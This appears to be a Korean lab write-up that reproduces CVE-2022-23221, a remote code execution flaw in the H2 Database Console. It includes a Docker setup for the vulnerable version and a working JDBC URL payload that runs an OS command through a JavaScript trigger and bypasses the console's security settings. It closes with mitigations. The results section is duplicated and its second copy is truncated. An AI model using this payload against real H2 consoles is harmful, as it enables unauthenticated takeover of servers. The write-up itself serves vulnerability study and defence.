


## 1. 취약점 요약

CVE-2022-23221은 H2 Database Console이 로그인 요청으로 전달된 JDBC URL을 처리하는 과정에서 보안 제한을 우회할 수 있어 발생하는 원격 코드 실행 취약점이다.

취약한 H2 Console은 사용자가 입력한 JDBC URL을 충분히 검증하지 않아, 공격자가 조작된 `jdbc:h2:mem:` 형식의 JDBC URL을 전달할 경우 임의의 코드를 실행할 수 있다.

H2 Console 2.1.210 이전 버전이 영향을 받으며, 본 실습에서는 취약 버전인 H2 2.0.206을 사용하였다.

NVD는 이 취약점을 네트워크에서 인증 없이 원격 코드를 실행할 수 있고, 기밀성·무결성·가용성에 모두 높은 영향을 줄 수 있는 Critical 취약점으로 평가한다.

## 2. 환경 구성

### 2.1 Dockerfile

```docker
FROM eclipse-temurin:8-jdk
ARG H2_VERSION=2.0.206
WORKDIR /opt/h2
ADD https://repo.maven.apache.org/maven2/com/h2database/h2/${H2_VERSION}/h2-${H2_VERSION}.jar /opt/h2/h2.jar
EXPOSE 8082
CMD ["java","-cp","/opt/h2/h2.jar","org.h2.tools.Server","-web","-webAllowOthers","-webPort","8082","-ifNotExists"]
```

Dockerfile은 Java 8 환경에 H2 2.0.206 JAR 파일을 설치하고, `-webAllowOthers` 옵션을 사용하여 컨테이너 외부에서의 접속을 허용한 H2 Web Console을 8082번 포트에서 실행한다.

### 2.2 docker-compose.yml

```yaml
services:
  h2:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: cve-2022-23221-h2
    ports:
      - "127.0.0.1:8082:8082"

  poc:
    image: python:3.13-slim
    working_dir: /app
    volumes:
      - ./:/app:ro
    command:
      - sh
      - -c
      - |
        pip install --no-cache-dir requests==2.32.4
        python poc.py http://h2:8082/
    depends_on:
      - h2
    profiles:
      - poc
```

`h2` 서비스는 취약한 H2 Console을 실행한다.

`poc` 서비스는 Python 컨테이너 내부에서 `requests`를 설치하고 PoC를 실행한다.

## 3. 취약 조건

다음 조건을 만족할 때 취약점이 악용될 수 있다.

1. H2 Console 2.1.210 미만 버전을 사용한다.
2. 공격자가 H2 Web Console에 네트워크로 접근할 수 있다.
3. 공격자가 로그인 화면의 JDBC URL 값을 직접 입력할 수 있다.
4. 별도의 인증 없이 H2 Console 로그인 요청을 보낼 수 있다.
5. H2 프로세스가 운영체제 명령을 실행할 수 있는 권한으로 동작한다.

본 실습 환경에서는 H2 2.0.206을 사용하고, `-webAllowOthers` 옵션을 통해 H2 Console에 접근할 수 있도록 구성하였다.

H2 2.1.210 버전에서는 CVE-2022-23221을 포함한 H2 Console 보안 문제가 수정되었다.

## 4. PoC 코드

`poc.py`는 다음 작업을 자동으로 수행한다.

1. H2 Console 초기 페이지에 접속한다.
2. 응답 HTML에서 `jsessionid` 값을 추출하여 요청을 보낼 주소를 구성한다.
3. 악성 SQL 구문이 포함된 JDBC URL을 로그인 요청으로 전송한다.
   - PoC에서는 JDBC URL의 `INIT` 속성을 이용하여 JavaScript 기반 트리거를 생성한다.
   - 트리거 내부에서는 다음과 같이 `exec("id")`함수를 호출한다.

   ```java
   java.lang.Runtime.getRuntime().exec("id")
   ```

   그 결과 H2 프로세스 권한으로 `id` 명령이 실행되며, 출력 결과가 오류 응답에 포함된다.

4. 서버 응답에서 `uid=` 문자열을 탐색한다.
5. 명령 실행 성공 여부를 출력한다.

JDBC URL은 다음과 같다.

```python
JDBC_URL="""jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
var scanner = new java.util.Scanner(is).useDelimiter("\\\\A")
throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\\"""
```

JDBC URL 끝의 `AUTHZPWD=\`는 H2 Console이 JDBC URL 뒤에 자동으로 추가하는 보안 설정의 파싱을 방해한다. 이를 통해 공격자가 지정한 `FORBID_CREATION=FALSE`와 `INIT` 구문이 적용되도록 유도한다.

## 5. 재현 절차

### 5.1 취약 환경 실행

```bash
docker compose up -d --build h2
```

정상적으로 실행되면 `http://127.0.0.1:8082/`를 통해 H2 Console에 접근할 수 있다.



### 5.2 PoC 실행

```bash
docker compose --profile poc run --rm poc
```

PoC 컨테이너는 `requests`를 설치하고 `poc.py`를 실행한다.

## 6. 실행 결과

취약점 재현에 성공하면 다음과 같은 결과가 출력된다.



`uid=0(root)`가 출력된 것은 별도의 사용자 계정이나 비밀번호 없이 H2 프로세스가 실행 중인 컨테이너 내부에서 공격자가 삽입한 명령이 성공적으로 실행되었음을 의미한다.

본 Docker 환경에서는 H2 프로세스가 root 권한으로 실행되어 명령 결과가 `uid=0(root)`로 나타났다.

따라서 공격자는 H2 프로세스 권한으로 다음과 같은 행위를 수행할 수 있다.

- 서버 내부 파일 열람
- 파일 생성 및 변조
- 임의 프로그램 실행
- 애플리케이션 설정 변경
- 서비스 중단
- 추가 악성코드 실행

## 6. 실행 결과

취약점 재현에 성공하면 다음과 같은 결과가 출력된다.

!스크린샷 2026-07-12 180718.png

`uid=0(root)`가 출력된 것은 별도의 사용자 계정이나 비밀번호 없이 H2 프로세스가 실행 중인 컨테이너 내부에서 공격자가 삽입한 명령이 성공적으로 실행되었음을 의미한다.

본 Docker 환경에서는 H2 프로세스가 root 권한으로 실행되어 명령 결과가 `uid=0(root)`로 나타났다.

따라서 공격자는 H2 프로세스 권한으로 다음과 같은 행위를 수행할 수 있다.

## 7. 대응 방안

H2를 취약점이 수정된 2.1.210 이상 버전으로 업데이트하는 것이 가장 중요하다.

IP 허용 목록(allowlist)을 적용하여 신뢰할 수 있는 관리 시스템에서만 접근하도록 제한하거나, 외부 네트워크에 노출하지 않고 localhost 또는 관리망에서만 접근하도록 제한하는 것이 좋다.
